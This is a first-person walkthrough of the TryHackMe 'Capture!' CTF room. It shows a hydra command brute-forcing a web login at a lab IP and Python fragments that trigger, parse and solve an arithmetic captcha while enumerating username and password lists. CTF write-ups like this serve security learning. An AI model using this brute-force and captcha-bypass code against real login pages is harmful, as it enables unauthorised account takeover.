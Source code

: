 
# Capture! CTF from TryHackMe Walkthrough

Welcome! Thanks for checking out my walkthrough. This room was simple to understand, but needed a little bit of custom automation that could potentially take longer than some rooms. I will walkthrough what I did in order to crack the username and password for this website.


## Recon

Included in the room was a zip file which included two text files: `usernames.txt` and `passwords.txt`. This pretty much told me from the start that I would be cracking some usernames and passwords.

When I first saw the login screen on the web application, my assumptions were confirmed.

![App Screenshot](https://willmaxcy.com/assets/imgs/capture/1.png?text=First+Pic)

I saw trying to login with wrong credentials left an error at the bottom of the page.

![App Screenshot](https://willmaxcy.com/assets/imgs/capture/2.png?text=Second+Pic)

In order to see what was going on under the hood, I opened up Burp Suite and checked out the raw HTTP request. I could see the data sent and what the response was from the server.

![App Screenshot](https://willmaxcy.com/assets/imgs/capture/3.png?text=Third+Pic)

With the information I gathered I decided to use [hydra](https://github.com/vanhauser-thc/thc-hydra) to try to crack both usernames and passwords. First trying to crack the usernames, I entered the command:
```bash
hydra -L usernames.txt -p password -t 64 -s 80 10.10.204.24 http-post-form "/login:username=^USER^&password=^PASS^:Error\: The user " 
```
Here I used the `usernames.txt` to enumerate the usernames. After trying this for a few minutes, I noticed that this wasn't returning what I would hope. After troubleshooting hydra and trying to figure out what potential command mistake I made, I looked at the website again only to find that the login page had changed!

![App Screenshot](https://willmaxcy.com/assets/imgs/capture/5.png?text=Fifth+Pic)

A captcha! Uh-oh. I've never dealth with breaking one of these before. After playing around in Brup Suite a while longer, I learned that the captcha from the previous page was the answer for the new login page. So the data needed to post correctly would be `username`, `password`, and `captcha`. In order to crack this login, it seems that I would have to write a custom script.

## Scripting

From what I learned about the web application, I had to create a script that would do the follwoing:

 - [ ]  Load both `usernames.txt` and `passwords.txt` into the program.
 - [ ]  Trigger the captcha.
 - [ ]  Find way to identify the elements in the captcha:
   - [ ]  Opperands
   - [ ]  Opperant
 - [ ]  Send correct captcha to the server while enumerating `usernames.txt`.
 - [ ]  Once username is found, enumerate `passwords.txt`
 - [ ]  Print out correct username and password.

I used these tasks to break about my code into smaller parts. The actual code is available at the top of this page, but you can also access it [here](https://github.com/wsmaxcy/capture/capture.py).

 - [X]  Load both `usernames.txt` and `passwords.txt` into the program.
```python
# load list of usernames
def load_users():
	users = list()
	with open("usernames.txt") as f:
		for line in f:
			users.append(line.rstrip('\n'))
	print('[+] Loaded ' + str(len(users)) + ' usernames to attempt.')
	return users

# loads list of passwords
def load_passwords():
	passwords = list()
	with open("passwords.txt") as f:
		for line in f:
			passwords.append(line.rstrip('\n'))
	print('[+] Loaded '+ str(len(passwords)) + ' passwords to attempt.')
	return passwords

```
- [x]  Trigger the captcha.
```python
# sends 10 requests in order start the captcha
for i in range(10):
	data = {
	'username': 'username',
	'password': 'password'
	}
	r = requests.post(url,data=data)
	print("[+] Sent "+ str(i+1) + "/10 requests to trigger captcha.", end = '\r')
```
 - [x]  Find way to identify the elements in the captcha:
   - [x]  Opperands
   - [x]  Opperant
```python
# username and password
person = ''
password = ''

# data used for post request
	length = len(password) -1
	data = {
	'username': username,
	'password': password,
	'captcha': cap
	}

	# Data used to find captcha
	r = requests.post(url,data=data)
	eq = r.text[1839 + length:1847 + length]
	
	# if statement that returns when the page is authenticated
	if eq == '':
		print('[+] Password found: ' + password)
		return -1

	num1 = int(eq[:3])
	num2 = int(eq[6:8])
	opp = eq[4]

    # finding out which operator to use for captcha equasion
	if opp == '+':
		cap = num1 + num2
	elif opp == '-':
		cap = num1 - num2
	else:
		cap = num1 * num2

    return cap
```
 - [x]  Send correct captcha to the server while enumerating `usernames.txt`.
 - [x]  Once username is found, enumerate `passwords.txt`
```python
# iterates through usernames list
for name in users:
	cur = send_request(name, 'password', cur)
	if cur == -1:
		person = person + name
		break;

passwords = load_passwords()

# iterates through password list
for p in passwords:

	cur = last_request(person, p, cur)
	if cur == -1:
		password = password + p
		break
```
- [x]  Print out correct username and password.
```python
# final print of username and password
print('[+] Username: ' + person)
print('[+] Password: ' + password)
```

After a lot of trial and error building the script, it ended up cracking both the username and the password.

![App Screenshot](https://willmaxcy.com/assets/imgs/capture/6.png?text=Sixth+Pic)

When I logged on with the information, I got the flag.

![App Screenshot](https://willmaxcy.com/assets/imgs/capture/7.png?text=Sixth+Pic)

Thanks for checking out my writeup! It's my first one, so if there are any comments or criticisms, I would love to hear them.


## Feedback

If you have any feedback, please reach out to me at will@willmaxcy.com.



[![portfolio](https://img.shields.io/badge/my_portfolio-000?style=for-the-badge&logo=ko-fi&logoColor=white)](https://willmaxcy.com/)
[![linkedin](https://img.shields.io/badge/linkedin-0A66C2?style=for-the-badge&logo=linkedin&logoColor=white)](https://www.linkedin.com/in/willmaxcy)
